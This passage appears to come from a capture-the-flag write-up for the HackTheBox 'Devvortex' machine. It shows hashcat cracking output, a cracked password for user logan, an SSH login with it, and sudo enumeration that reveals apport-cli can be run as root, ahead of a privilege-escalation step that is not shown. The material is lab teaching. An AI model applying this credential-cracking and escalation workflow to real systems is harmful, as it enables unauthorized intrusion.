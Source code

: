 ```
Restore.Point....: 1232/14344384 (0.01%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:1016-1024
Candidate.Engine.: Device Generator
Candidates.#1....: pedro -> tagged
Hardware.Mon.#1..: Temp: 64c Fan: 29% Util: 99% Core:1316MHz Mem:3505MHz Bus:16

Started: Sun Nov 26 01:14:02 2023
Stopped: Sun Nov 26 01:14:11 2023
```
We now have a new pair of credentials as `logan:tequieromucho`. We can use this to ssh directly into the machine:
```
┌──(kali㉿kali)-[~]
└─$ ssh logan@devvortex.htb
The authenticity of host 'devvortex.htb (10.10.11.242)' can't be established.
ED25519 key fingerprint is SHA256:RoZ8jwEnGGByxNt04+A/cdluslAwhmiWqG3ebyZko+A.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'devvortex.htb' (ED25519) to the list of known hosts.
logan@devvortex.htb's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-167-generic x86_64)
<...SNIP...>
logan@devvortex:~$ 
```
## Privilege Escalation
### Using file viewer 'less' to retain a privileged shell session
Checking sudo privileges:
```
logan@devvortex:/tmp$ sudo -l
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```
We can get more information from the tool by checking the man page:
```
DESCRIPTION
       apport  automatically  collects  data  from  crashed processes and compiles a problem report in /var/crash/. This is a command line frontend for reporting those crashes to the developers. It can also be used to report bugs
       about packages or running processes.

       If symptom scripts are available, it can also be given the name of a symptom, or be called with just -f to display a list of known symptoms.

       When being called without any options, it processes the pending crash reports and offers to report them one by one. You can also display the entire report to see what is sent to the software developers.

       When being called with exactly one argument and no option, apport-cli uses some heuristics to find out "what you mean" and reports a bug against the given symptom name, package name, program path, or PID. If  the  argument
       is a .crash or .apport file, it uploads the stored problem report to the bug tracking system.

       For  desktop systems with a graphical user interface, you should consider installing the GTK or KDE user interface (apport-gtk or apport-kde). They accept the very same options and arguments.  apport-cli is mainly intended
       to be used on servers.
```